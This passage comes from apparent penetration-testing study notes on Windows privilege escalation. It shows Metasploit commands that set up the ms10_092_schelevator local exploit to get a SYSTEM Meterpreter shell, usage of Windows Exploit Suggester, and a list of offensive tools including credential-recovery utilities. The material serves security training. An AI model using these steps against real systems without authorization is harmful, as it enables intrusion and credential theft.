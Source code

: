 Once this is set, we can now set up the privilege escalation module by specifying our current Meterpreter session:
```console
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
msf6 exploit(windows/local/ms10_092_schelevator) > set lhost <OUR IP>
msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443
```

If all goes to plan, once we type exploit, we will receive a new Meterpreter shell as the **NT AUTHORITY\SYSTEM**.

## Windows Desktop Versions 

Over the years, Microsoft has added enhanced security features to subsequent versions of Windows Desktop. We can use the [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). To install it:
```console
zero@pio$ sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
zero@pio$ sudo tar -xf setuptools-2.0.tar.gz; cd setuptools-2.0/; sudo python2.7 setup.py install 

zero@pio$ sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
zero@pio$ sudo tar -xf xlrd-1.0.0.tar.gz; cd xlrd-1.0.0/; sudo python2.7 setup.py install;
```

Once this is done, we need to capture the `systeminfo` command's output and save it to a text file on our attack VM:
```console
C:\zeropio> systeminfo
```

We then need to update our local copy of the Microsoft Vulnerability database. This command will save the contents to a local Excel file:
```console
zero@pio$ sudo python2.7 windows-exploit-suggester.py --update
```

Once this is done, we can run the tool against the vulnerability database to check for potential privilege escalation flaws:
```console
zero@pio$ python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt 
```

In the case of a Meterpreter we can use the `post/multi/recon/local_exploit_suggestor` module.



---

# Resources 

| **Link**   | **Description**    |
|--------------- | --------------- |
| [SeatBelt](https://github.com/GhostPack/Seatbelt) | is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives |
| [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) | Privilege Escalation Awesome Scripts SUITE |
| [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations |
| [SharUp](https://github.com/GhostPack/SharpUp) | a C# port of various PowerUp functionality |
| [JAWS](https://github.com/411Hall/JAWS) | Just Another Windows (Enum) Script |
| [SessionGopher](https://github.com/Arvanaghi/SessionGopher) | is a PowerShell tool that uses WMI to extract saved session information for remote access tools such as WinSCP, PuTTY, SuperPuTTY, FileZilla, and Microsoft Remote Desktop. It can be run remotely or locally |
| [Watson](https://github.com/rasta-mouse/Watson) | Enumerate missing KBs and suggest exploits for useful Privilege Escalation vulnerabilities |
| [LaZagne](https://github.com/AlessandroZ/LaZagne) | Credentials recovery project |